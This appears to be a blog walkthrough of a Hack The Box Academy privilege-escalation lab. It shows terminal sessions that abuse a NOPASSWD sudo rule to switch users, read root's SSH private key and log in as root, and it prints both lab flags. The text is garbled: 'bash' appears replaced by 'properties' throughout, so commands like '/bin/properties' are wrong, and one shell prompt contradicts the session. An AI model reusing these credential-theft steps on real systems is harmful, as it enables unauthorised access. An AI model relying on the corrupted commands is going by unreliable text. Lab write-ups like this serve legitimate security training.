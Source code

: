 # Privilege Escalation

Sunday, July 7, 2024 | 4 minutes

### [Intro](https://k0rg.com/posts/boxes/hackthebox/privilegeescalation/#intro)

Today’s walkthrough goes over some basics with lateral movement and privilege escalation. We’re not too far into the weeds of enumeration yet, but let’s dive in.

This box can be found here: [Hack The Box - Academy](https://academy.hackthebox.com/module/77/section/844) - (you will need active access to HTB Academy)

### [Research](https://k0rg.com/posts/boxes/hackthebox/privilegeescalation/#research)

We’re given a box to ssh into, with the user: `user1` and password `password1`. Our task is to SSH to the server with the provided credentials and, after logging in, try to find a way to move to `user2`, to get the flag in `/home/user2/flag.txt`.

So, let’s connect using SSH:

```properties
──(k0rg㉿kali)-[~]
└─$ ssh user1@10.10.10.10 -p 33333
The authenticity of host '[10.10.10.10]:33333 ([10.10.10.10]:33333)' cant be established.
ED25519 key fingerprint is SHA256:KDcF5lg81jNEGgdr67bEo+Ui1pmsyHXKnw/ZHPLZCyY.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:1: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[10.10.10.10]:33333' (ED25519) to the list of known hosts.
(user1@10.10.10.10) Password: 
Welcome to Ubuntu 20.04.1 LTS (GNU/Linux 6.1.0-10-amd64 x86_64)
...
user1@htb-privesc:~$
```

Upon connecting, let’s get a lay of the land. We’re connected as `user1` and our `home` directory is empty. We change directories and check the home directory for `user2` and find the `flag.txt` we’re looking for:

```properties
user1@htb-privesc:~$ whoami
user1
user1@htb-privesc:~$ ls
user1@htb-privesc:~$ cd ..
user1@htb-privesc:/home$ ls
user1  user2
user1@htb-privesc:/home$ cd user2
user1@htb-privesc:/home/user2$ ls
flag.txt
```

### [First Flag](https://k0rg.com/posts/boxes/hackthebox/privilegeescalation/#first-flag)

We check if we can just view the flag and, expectedly, get a permission denied error:

```properties
user1@htb-privesc:/home/user2$ cat flag.txt 
cat: flag.txt: Permission denied
```

This is a beginner-level box, so we likely don’t need to go too deep on enumeration. Let’s start with checking user privileges:

```properties
user1@htb-privesc:/home/user2$ sudo -l
Matching Defaults entries for user1 on htb-privesc:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User user1 may run the following commands on htb-privesc:
    (user2 : user2) NOPASSWD: /bin/properties
```

A pretty obvious “vulnerability” here is that we can run `properties`, using no password, in the context of user2. This should let us read files for that user as well:

```properties
user1@htb-privesc:/home/user2$ sudo -u user2 /bin/properties
user2@htb-privesc:~$ ls
flag.txt
user2@htb-privesc:~$ cat flag.txt 
HTB{l473r4l_m0v3m3n7_70_4n07h3r_u53r}
```

And, sure enough, we can now read our first flag. Note in the above, how our prompt changes from the context of `user1` to `user2` after running the `sudo -u` command.

### [Second Flag](https://k0rg.com/posts/boxes/hackthebox/privilegeescalation/#second-flag)

The next task we’re given is “Once you gain access to ‘user2’, try to find a way to escalate your privileges to root, to get the flag in `/root/flag.txt`.”

Now that we’re running as `user2`, let’s check our access to the file:

```properties
user2@htb-privesc:~$ cat /root/flag.txt
cat: /root/flag.txt: Permission denied
```

We can’t check permissions like before, because we don’t know `user2`’s password. We’re going to look at everything in `/root/` to see what permissions we now have:

```properties
user2@htb-privesc:/root$ ls -la
total 32
drwxr-x--- 1 root user2 4096 Feb 12  2021 .
drwxr-xr-x 1 root root  4096 Jul 22 20:45 ..
-rwxr-x--- 1 root user2    5 Aug 19  2020 .properties_history
-rwxr-x--- 1 root user2 3106 Dec  5  2019 .propertiesrc
-rwxr-x--- 1 root user2  161 Dec  5  2019 .profile
drwxr-x--- 1 root user2 4096 Feb 12  2021 .ssh
-rwxr-x--- 1 root user2 1309 Aug 19  2020 .viminfo
-rw------- 1 root root    33 Feb 12  2021 flag.txt
```

Looks like we have access to the `.ssh` folder. Let’s use that to our advantage. We copy the `id_rsa` key in `/root/.ssh` to our local system. We learn earlier in the lesson for this section about using the private keys found in a user’s `.ssh` directory.

We’re going to copy the private key to our local system and then SSH back into our target, as the `root` user, using the private key.

```properties
user2@htb-privesc:/root/.ssh$ cat id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
...
...
...
QfPM8OxSjcVJCpAAAAEXJvb3RANzZkOTFmZTVjMjcwAQ==
-----END OPENSSH PRIVATE KEY-----
user1@htb-privesc:/home/user2$ exit
logout
Connection to 10.10.10.10 closed.
```

After creating the key on our local system, we need to change the permissions, so that SSH doesn’t refuse the connection:

```properties
k0rg@kali[/htb]$ vim id_rsa
k0rg@kali[/htb]$ chmod 600 id_rsa
k0rg@kali$ ssh root@10.10.10.10 -p 33333 -i id_rsa
```

### [Success](https://k0rg.com/posts/boxes/hackthebox/privilegeescalation/#success)

Lastly, we check our user, and then read our flag!

```properties
root@htb-privesc:~# whoami
root
root@htb-privesc:~# cat flag.txt 
HTB{pr1v1l363_35c4l4710n_2_r007}
```